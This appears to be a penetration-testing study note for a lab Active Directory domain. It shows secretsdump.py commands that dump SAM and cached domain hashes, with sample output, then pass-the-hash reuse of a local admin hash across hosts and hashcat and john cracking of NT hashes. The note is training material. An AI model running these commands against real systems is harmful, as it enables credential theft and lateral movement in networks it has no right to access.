 ## **Dumping Hashes with Secretsdump.py**

You can dump hashes directly with `secretsdump` rather than using the smbrelay attack, except you need to access shares, you should still try both though
## **Usage**


```powershell
# Dumping SAM hashes
# secretsdump.py domain.tld/user:password@target_IP

$ secretsdump.py MARVEL.local/fcastle:Password1@192.168.0.132
```


**_Dumped Hashes :_**


```shell
--SNIP--

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xa9b4a5489c5689b25cb65a48804aa1cc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:938bb6f7cdaf9b1856e880fd28de914b:::
frankcastle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c
MARVEL.local/fcastle:$DCC2$10240#fcastle#e6f48c2526bd594441d3da3723155f6f


--SNIP--
```


**Note :** You should always focus on the hashes of  `administrator` and other users like `frankcastle` in our place, usually Guest, DefaultAccount and WDAGUtilityAccount are more of defaults account so there is no much to worry about.

Also watch out for **Wdigest** password cos' it is an old protocol on Windows 7, Windows 8 , Windows server 2008 R2 and Windows Server 2012.This is used to store passwords in clear text 

![](https://tcm-sec.com/wp-content/uploads/2021/08/9327ed5a-2e34-4c71-87c4-a214b4b60444.png)


### **Dumping Individual hashes with local admin hash**

sometimes we might not be able to dump hashes by just specifying the user like we did in the first step, we where able to dump `MARVEL.local/fcastle` hash but we where not able to dump `MARVEL.local/pparkers` hash, If we can dump a user hash, we can copy the local admin hash and try it out with other users to see if they share the same admin hash, then we can get a user hash from there

```powershell
# Dumping peterparker hash with local admin hash
$ secretsdump.py administrator:@192.168.0.132 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```



![](https://i.imgur.com/4nSVJeN.jpg)


```powershell
# dumping peterparker hash with the local admin hash we got from fcastle
$ secretsdump.py administrator:@192.168.0.183 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```



![](https://i.imgur.com/MKOGwFO.jpg)


**Note :** The only thing that changes here is the IP address of each user, every command option stays the same




## **Cracking Hashes**


We can take the `NT` potion (second potion) of each user hash we want to crack and then crack it.

```powershell
# paste hash into a txt file
$ echo "7facdc498ed1680c4fd1448319a8c04f" > hash.txt

# cracking hash with hashcat
$ hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt

# cracking hash with john
$ john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --fork=4
```


**_Hashcat Output :_**

![](https://i.imgur.com/9x7QMIq.png)


**_John output :_**

![](https://i.imgur.com/3wGVyzJ.png)
